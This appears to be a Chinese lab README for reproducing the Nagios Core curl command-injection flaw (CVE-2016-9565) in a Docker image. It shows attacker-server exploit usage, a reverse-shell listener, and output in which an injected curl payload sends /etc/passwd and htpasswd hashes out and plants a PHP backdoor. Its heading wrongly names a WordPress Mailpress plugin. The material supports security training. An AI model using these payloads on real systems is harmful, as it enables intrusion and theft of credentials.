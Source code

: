 ## WordPress Mailpress Plugin 远程代码执行漏洞

### 漏洞信息

 * [Nagios Core < 4.2.2 Curl Command Injection/Code Execution](https://legalhackers.com/advisories/Nagios-Exploit-Command-Injection-CVE-2016-9565-2008-4796.html)

Nagios 是一款监控IT基础设施的程序，近日安全研究人员 Dawid Golunski 发现在 Nagios Core 中存在一个代码执行漏洞：攻击者首先伪装成 RSS 订阅源，当受害应用获取 RSS 信息时攻击者将恶意构造的数据传给受害者，程序在处理过程中将恶意数据注入到了 curl 的命令中，进而代码执行。


### 漏洞分析

参考: [Nagios Core 代码执行漏洞（CVE-2016-9565）分析](http://paper.seebug.org/146/)

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
HTTP 基础认证 | nagiosadmin | admin
Web 路径 | /nagios/ | -
Web 物理路径 | /usr/local/nagios/share | -
PoC/Exp 路径 | /nagios/exp.php?url=http://xx.xxx.xxx.xx/ | -

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:n_nagios_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:n_nagios_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

访问: `http://127.0.0.1:8000/nagios/` 出现基础认证框则代表成功

### 使用与利用

#### Exp 使用

> 假定攻击者服务器 IP 地址为：2.2.2.2

1. 在攻击者服务器运行 nagios_cmd_injection.py

 ```
sudo python nagios_cmd_injection.py 2.2.2.3 9999
 ```

 > 2.2.2.3 是攻击者监听反弹 shell 的IP地址，可与RSS地址一样

2. 访问 http://xxxx/nagios/exp.php?url=http://2.2.2.2/

 输入 HTTP 基础认证的账号密码

 > exp.php 是验证漏洞时添加的，真实环境中不存在。注意最后一个 `/`

3. 在攻击者服务器看到如下输出即代表成功 

 ```
 ➜ sudo python nagios_cmd_injection.py 192.168.30.194 8080

 Nagios Core < 4.2.0 Curl Command Injection / Code Execution PoC Exploit
 CVE-2016-9565
 nagios_cmd_injection.py ver. 1.0

 [+] Generating SSL certificate for our python HTTPS web server

 [+] Starting the web server on ports 80 & 443

 [+] Web server ready for connection from Nagios (http://target-svr/nagios/rss-corefeed.php). Time for your dnsspoof magic... ;)

 [+] Received GET request from Nagios server (192.168.30.xxx) ! Sending redirect to inject our curl payload:

 -Fpasswd=@/etc/passwd -Fgroup=@/etc/group -Fhtauth=@/usr/local/nagios/etc/htpasswd.users --trace-ascii /usr/local/nagios/share/nagios-backdoor.php

 [+] Success, curl payload injected! Received data back from the Nagios server 192.168.30.xxx

 [*] Contents of /etc/passwd file from the target:

 root:x:0:0:root:/root:/bin/bash
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
 bin:x:2:2:bin:/bin:/usr/sbin/nologin
 www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
 backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
 nagios:x:999:999::/usr/local/nagios:

 [*] Contents of /usr/local/nagios/etc/htpasswd.users file:

 nagiosadmin:$apr1$c3z3k5K8$lk.GET0vWb.WWJidJt84o1
```

### 参考链接

* [Nagios Core < 4.2.2 Curl Command Injection/Code Execution](https://legalhackers.com/advisories/Nagios-Exploit-Command-Injection-CVE-2016-9565-2008-4796.html)
* [Nagios Core 代码执行漏洞（CVE-2016-9565）分析](http://paper.seebug.org/146/)
